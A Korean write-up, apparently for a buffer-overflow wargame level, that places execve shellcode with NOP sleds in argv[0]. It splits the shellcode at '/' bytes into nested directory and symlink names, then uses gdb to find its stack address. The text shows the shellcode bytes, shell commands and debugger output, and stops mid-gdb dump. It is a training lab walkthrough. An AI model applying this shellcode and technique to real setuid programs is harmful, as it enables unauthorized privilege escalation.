 ### Solution

많은 부분이 막혀있다. 환경변수도 제거되고 buffer의 앞부분도 제거되고 argv[1] 또한 제거된다. 점프를 할 수 있는 영역은 stack 영역으로 고정되어있다.

이 문제의 경우 이전 문제에서 힌트가 있다. 전 문제에서 symbolic link를 통해 argv[0]을 바꿀 수 있다는 것을 보았다. 즉 argv[0]에 쉘코드를 넣으면 된다.

``` bash2
ln -s "troll" `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x74\x6d\x70\x89\xe3\x50\x53"'`
ln: cannot create symbolic link `1픐h//shh/bin??S' to `troll': No such file or directory
```

그러나 에러가 나는 모습을 확인할 수 있다. 이는 링크 걸 파일 이름에 "/" 가 있어서 생기는 오류이다.

이걸 해결하기위해 / 단위로 디렉토리와 링크 파일을 만들어주어야한다.

하지만 사용하는 쉘코드를 보면 /가 2번 연속되어있는 구간이 있다. 이걸 해결하기 위해 쉘코드를 약간 수정하여 /tmp/1sh를 실행하도록 바꾼 뒤 /bin/sh을 /tmp/1sh로 심볼릭 링크 걸어줄 것이다.

변형된 쉘코드는 \x90*200 + \x31\xc0\x50\x68\x2f\x31\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80 + \x90*200
이고 이를 / (\x2f) 단위로 끊어서
디렉토리 \x90*200 + \x31\xc0\x50\x68
밑에 디렉토리 \x31\x73\x68\x68
밑에 링크파일 \x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80 + \x90*200
를 만들 것이다.

``` gdb
[orge@localhost orge]$ mkdir `python -c 'print "\x90"*200+"\x31\xc0\x50\x68"'`
[orge@localhost orge]$ cd `python -c 'print "\x90"*200+"\x31\xc0\x50\x68"'`
[orge@localhost ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h]$ mkdir `python -c 'print "\x31\x73\x68\x68"'`
[orge@localhost ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h]$ cd 1shh/
[orge@localhost 1shh]$ cp ~/troll ~/trol2
[orge@localhost 1shh]$ ln -s ~/trol2 `python -c 'print "\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*200'`
```

gdb를 붙여보기 위해 troll이 아닌 trol2로 복사한 뒤 링크를 했다. gdb를 통해 쉘코드의 주소를 알아보자.

(gdb) r `python -c 'print "A"*48'`
Starting program: /home/orge/????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h/1shh/tmp??S??柰
                     ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????? `python -c 'print "A"*48'`

Breakpoint 1, 0x8048506 in main ()
(gdb) x/x $ebp+0xc
0xbffff6d4:	0xbffff714
(gdb) x/wx 0xbffff714
0xbffff714:	0xbffff812
(gdb) x/s 0xbffff812
0xbffff812:	 "/home/orge/", '\220' <repeats 189 times>...
(gdb) x/50bx 0xbffff812
0xbffff812:	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x6f	0x72
0xbffff81a:	0x67	0x65	0x2f	0x90	0x90	0x90	0x90	0x90
0xbffff822:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff82a:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff832:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff83a:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff842:	0x90	0x90
